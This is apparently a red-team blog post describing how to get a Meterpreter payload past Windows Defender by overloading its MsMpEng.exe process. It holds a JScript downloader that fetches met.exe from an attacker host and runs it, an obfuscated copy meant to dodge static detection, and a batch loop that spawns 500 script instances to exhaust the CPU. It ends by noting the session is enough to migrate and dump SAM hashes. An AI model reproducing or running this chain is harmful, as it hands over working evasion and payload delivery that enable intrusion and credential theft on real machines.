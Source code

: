 ```yaml
---
title: Starving Defender – Bypass AV by flooding CPU via MsMpEng.exe 
date: 2025-07-12 +/-TTTT
categories: [REDTEAM]
tags: [evasion,meterpreter]
---
```


## JS Launcher

This is a quick, dirty, and very loud method of bypassing Windows Defender. Note that the Meterpreter payload will touch the disk in this scenario. I wanted to demonstrate an absurdly easy way of walking through Defender’s doors.

To download a Meterpreter payload to the disk, we will use `cscript.exe` by creating a `downloader.js` file and double-clicking it.

```js
var url = "http://10.8.8.8/met.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');
Object.Open('GET', url, false);
Object.Send();
if (Object.Status == 200) {
    var Stream = WScript.CreateObject('ADODB.Stream');
    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.Position = 0;
    Stream.SaveToFile("met.exe", 2);
    Stream.Close();
}
var r = new ActiveXObject("WScript.Shell").Run("met.exe");
```

Both the JS script and the downloaded Meterpreter payload are detected statically before execution.

The first problem can be solved by using a public JS obfuscator, such as https://obfuscator.io/.

The resulting script will look like this:

```js
var _0x17d249=_0x1fcc;(function(_0x8d99f4,_0x5b012c){var _0x2cbcff=_0x1fcc,_0x176630=_0x8d99f4();while(!![]){try{var _0x516bb3=-parseInt(_0x2cbcff(0x1f5))/0x1+-parseInt(_0x2cbcff(0x1ec))/0x2+-parseInt(_0x2cbcff(0x1e5))/0x3*(parseInt(_0x2cbcff(0x1f2))/0x4)+parseInt(_0x2cbcff(0x1e7))/0x5+-parseInt(_0x2cbcff(0x1e6))/0x6*(-parseInt(_0x2cbcff(0x1f3))/0x7)+parseInt(_0x2cbcff(0x1ef))/0x8+-parseInt(_0x2cbcff(0x1ea))/0x9*(-parseInt(_0x2cbcff(0x1f1))/0xa);if(_0x516bb3===_0x5b012c)break;else _0x176630['push'](_0x176630['shift']());}catch(_0x444b68){_0x176630['push'](_0x176630['shift']());}}}(_0x4958,0x52d5f));var url=_0x17d249(0x1f8),Object=WScript[_0x17d249(0x1e4)]('MSXML2.XMLHTTP');Object['Open'](_0x17d249(0x1f6),url,![]),Object['Send']();if(Object[_0x17d249(0x1e8)]==0xc8){var Stream=WScript['CreateObject'](_0x17d249(0x1ee));Stream[_0x17d249(0x1f0)](),Stream[_0x17d249(0x1e9)]=0x1,Stream[_0x17d249(0x1f4)](Object[_0x17d249(0x1f9)]),Stream[_0x17d249(0x1eb)]=0x0,Stream[_0x17d249(0x1f7)]('met.exe',0x2),Stream['Close']();}var r=new ActiveXObject(_0x17d249(0x1fa))[_0x17d249(0x1ed)]('met.exe');function _0x1fcc(_0x5aab95,_0x3af232){var _0x495812=_0x4958();return _0x1fcc=function(_0x1fcc18,_0xbf485){_0x1fcc18=_0x1fcc18-0x1e4;var _0xf5897c=_0x495812[_0x1fcc18];return _0xf5897c;},_0x1fcc(_0x5aab95,_0x3af232);}function _0x4958(){var _0x88af5=['174024sBDVKk','6aCgHFV','2711895TrvrLm','Status','Type','9307413HbmAyM','Position','792432hvPFro','Run','ADODB.Stream','470216MBGiiE','Open','10fGQDlo','36dgRipP','779387TmqUOV','Write','489071HUhQcm','GET','SaveToFile','http://10.8.8.8/met.exe','ResponseBody','WScript.Shell','CreateObject'];_0x4958=function(){return _0x88af5;};return _0x4958();}
```

Save it on the desktop as `obf.js` and attempt to execute it.

Once again, the downloaded Meterpreter payload is detected, but this time, the JS script (obf.js) is not removed by Windows Security.


## Overloading the CPU

![Catfender](https://i.imgur.com/5TR2Szu.png)

To successfully execute Meterpreter with this technique, we need to spam multiple `cscript.exe` processes running our `obf.js` script, which will exhaust the CPU due to Defender's `MsMpEng.exe` process.

This time, we will create a separate `launcher.bat` script that spawns multiple instances of our malicious JS payload execution via a for loop.

```bat
@echo off
for /l %%i in (1,1,500) do (
    cscript //nologo obf.js
)
```

We can execute this batch script multiple times and wait a few seconds.

<div style="text-align: center;">
  <video width="100%" height="auto" controls playsinline webkit-playsinline x-webkit-airplay="allow" style="max-width: 640px;">
    <source src="https://i.imgur.com/Cr8xbD4.mp4" type="video/mp4">
    Your browser does not support the video tag.
  </video>
</div>

After some time, the Meterpreter session might terminate, but as demonstrated in the video, there is still sufficient time to perform migration, dump hashes from the SAM database, and carry out additional operations.

---

